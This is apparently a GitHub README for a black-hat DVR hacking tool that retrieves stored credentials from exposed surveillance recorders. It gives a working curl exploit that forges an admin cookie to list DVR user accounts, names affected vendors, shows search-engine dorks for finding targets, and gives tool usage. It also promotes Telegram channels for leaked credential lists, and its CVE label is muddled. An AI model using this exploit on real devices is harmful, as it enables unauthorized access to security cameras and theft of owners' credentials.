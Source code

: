 # DVR-HACKING-HACK4LX


![Telegram Chat](@hack4lx)

#  [Tool] show DVR Credentiales

	[*] Exploit Title:       "DVR-HACKING-HACK4LX" 
	[*] CVE:                 2018-2019
	[*] CVSS Base Score v3:  7.5 / 11
	[*] CVSS Vector String:  CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N  
	[*] Date:                04/25/2019
	[*] Exploit Author:      ʍ4ղíƒҽՏԵ0 ϲվҍҽɾ ՏҽϲմɾíԵվ Եҽɑʍ ( https://t.me/hack4lx )

	
![DVR-HACKING-HACK4LX] (http://uupload.ir/files/ytf_google_1.png) 

### Exploit:

```
	$> curl "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"

```
## tested in DVR (banner/vendor ?):
	Novo
	CeNova
	QSee
	Pulnix
	XVR 5 in 1 (title: "XVR Login")
	Securus,  - Security. Never Compromise !! - 
	Night OWL
	DVR Login
	HVR Login
	MDVR Login

# On the Wild:
![DVR_dorks_0](http://uupload.ir/files/99bc_shodan_1.png) 
![DVR_dorks_2](http://uupload.ir/files/z40d_shodan_2.png)
![DVR_dorks_1](http://uupload.ir/files/esdo_zoomeyes.jpg) 
![DVR_dorks_3](http://uupload.ir/files/i4n2_in_1.png)

## Possible Banners frontend (web):
![DVR-HACKING-HACK4LX](http://uupload.ir/files/3zt3_in_2.png)
![DVR-HACKING-HACK4LX](http://uupload.ir/files/w2e7_in_3.png)
![DVR-HACKING-HACK4LX](http://uupload.ir/files/ddt_in_4.png)
![DVR-HACKING-HACK4LX](http://uupload.ir/files/lfqj_in_5.png)
![DVR-HACKING-HACK4LX](http://uupload.ir/files/0al5_in_x.png)
![DVR-HACKING-HACK4LX](http://uupload.ir/files/aubp_in_x1.png)
![DVR-HACKING-HACK4LX](http://uupload.ir/files/a8kw_login_5.png)
![DVR-HACKING-HACK4LX](http://uupload.ir/files/u9l5_login_7.png)

## Indoor:
![DVR-HACKING-HACK4LX](http://uupload.ir/files/m11t_poc_1.png)
![DVR-HACKING-HACK4LX](http://uupload.ir/files/5e81_poc_2.png)



# TOOL: "Show all DVR Credentials"

## Quick start

	usr@pwn:~$ git clone https://github.com/attakercyebr/hack4lx_CVE-2018-2019
	usr@pwn:~$ cd hack4lx_CVE-2018-2019.py
	usr@pwn:~$ pip install -r requirements.txt

## help

	usage: hack4lx_CVE-2018-2019.py [-h] [-v] --host HOST [--port PORT]

	[+] Obtaining Exposed credentials

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --host HOST    Host
	  --port PORT    Port

	[+] Demo: python hack4lx_CVE-2018-2019.py --host 192.168.1.101 -p 81


✂️●●●●●●●●●●●●●●●●●●●●●●●●●●●●

⚠️ Read-First:

🔞The author of the does not encourage anyone to repeat this. Otherwise, you will be solely responsible. The was created for informational purposes. And for the fact that you caution you!🙏

✂️●●●●●●●●●●●●●●●●●●●●●●●●●●●●

Description 👀

Title 📌 hack4lx_CVE-2018-2019

💀 Made by ☠️👊 𝕿𝖍𝖎𝖘 𝕴𝖘 𝕿𝖍𝖊 𝓜4𝓷𝓲𝓯𝓮𝓼𝓽0 𝕿𝖊𝖆𝖒™💪🏴‍☠️

Author 🏴‍☠️ rainboy1 | erfan4lx | Vampire4lx

Aate ♾ 2020 May

Version 👁‍🗨 2.1.9

Usage 👌..

Channel  Combo List 👍  [![Telegram Chanel](https://img.shields.io/badge/chat%20on-Telegram-blue.svg)](https://t.me/hack4lxCombo)


✂️●●●●●●●●●●●●●●●●●●●●●●●●●●●●

☠️👊𝓷𝓲𝓯𝓮𝓼𝓽4𝓷𝓲𝓯𝓮𝓼𝓽0 (MCS) Telegram Groups We are a team of  𝓑𝓵𝓪𝓬𝓴  𝓗𝓪𝓽  𝓗𝓪𝓬𝓴𝓮𝓻𝓼  because we know what is at stake. We prepare hackers by providing training and hacking tools. We are one of the few Black hat hacking teams that show you their skills.👁‍🗨💪

👇🏾👇🏾👇🏾👇🏾👇🏾

[![Join To Telegram Groups](https://img.shields.io/badge/chat%20on-Telegram-blue.svg)](https://t.me/M4nifest0)

✂️●●●●●●●●●●●●●●●●●●●●●●●●●●●●

Telegram Chat ID 📞 [![Telegram Chat](https://img.shields.io/badge/chat%20on-Telegram-blue.svg)](https://t.me/hack4lx)

✂️●●●●●●●●●●●●●●●●●●●●●●●●●●●●

<p align="center">
  ✯ Follow Me On ♥️👇🏾👇🏾👇🏾
</p>
<p align="center">
  <a href="https://www.youtube.com/channel/UC73xXDVwfS8mE4ExtOg63sw/videos?view_as=subscriber">
    <img src="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQIe0KA-4U2wilfj3CwcetOZYjaXr_C6bh5b9Xp3eDfeATwkhn82b70ELBt&s" width="40" height="40">
  </a>
  <a href="https://t.me/M4nifest0">
    <img src="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcRnOo5m2bMLsKVd9-ZjGf0xl0SAVqj9Fgxvu89_iu24qUcWQJ-X_1lvI5yOIA&s" width="40" height="40">
</p>
